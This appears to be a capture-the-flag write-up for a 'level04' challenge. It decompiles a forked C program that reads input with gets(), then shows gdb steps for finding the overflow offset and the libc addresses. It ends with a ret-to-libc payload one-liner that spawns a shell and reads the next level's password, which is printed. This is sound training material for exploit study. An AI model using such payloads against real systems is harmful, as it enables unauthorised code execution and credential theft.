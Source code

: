 ## Step 1: Static & Dynamic Analysis

```c
int main(int argc, const char **argv, const char **envp)
{
  int wait_status;
  int i;
  int j;
  int k;
  char buffer[128];
  __pid_t pid;

  pid = fork();
  memset(buffer, 0, sizeof(buffer));
  k = 0;
  wait_status = 0;
  if ( pid )
  {
    do
    {
      wait(&wait_status);
      i = wait_status;
      if ( (wait_status & 0x7F) == 0 || (j = wait_status, (char)((wait_status & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");w
        return 0;
      }
      k = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
    }
    while ( k != 11 );
    puts("no exec() for you");
    kill(pid, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(buffer);
  }
}
```

### Explanation

This program creates a child process using fork().

The parent process monitores the child process and prevents it to use `execve()` using `ptrace(PTRACE_PEEKUSER)`.

The child process uses `get()` to fill the `buffer` without checking its size.

The vulnerability is found in the child process where `get()` fills `buffer` without checking the number of characters `get()` can accept.

This will enable us to make a buffer overflow and perform a **ret-to-libc** attack.

This attack consists in overriding the `$eip` register with `system()` address and pass the `"/bin/sh"` string as parameter in order to open a shell terminal.


**1.** First we are going to use: this command in gdb

```bash
(gdb) set follow-fork-mode child
```
to follow every events happening in the child process instead of the parent process.


**2.** We need to find the offset to override `$eip`, we put a breakpoint just behind `get()` and look for the padding to reach `$eip`

```bash
(gdb) b *0x08048763
(gdb) r < <(python -c 'print("A" * 156 + "BBBBBBBBBBBB")')
Starting program: /home/users/level04/level04 < <(python -c 'print("A" * 156 + "BBBBBBBBBBBB")')
[New process 1801]
Give me some shellcode, k
[Switching to process 1801]
child is exiting...
Breakpoint 4, 0x08048763 in main ()
(gdb) x/4xw $ebp
0xffffd718:    0x41414141    0x42424242    0x42424242    0x42424242
```


**3.** We find the address of both functions `system()`, `exit()` and the string `"/bin/sh"` to perform the attack.

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
(gdb) find 0xf7e2c000, 0xf7ffe000, "/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
```


## Step 2: Exploiting the Binary

We perform the **ret-to-libc** and a make shell spawn with the rights of the user **level05**. 

```bash
(python -c 'print ("A" * 156) + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1]';cat) | ./level04
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```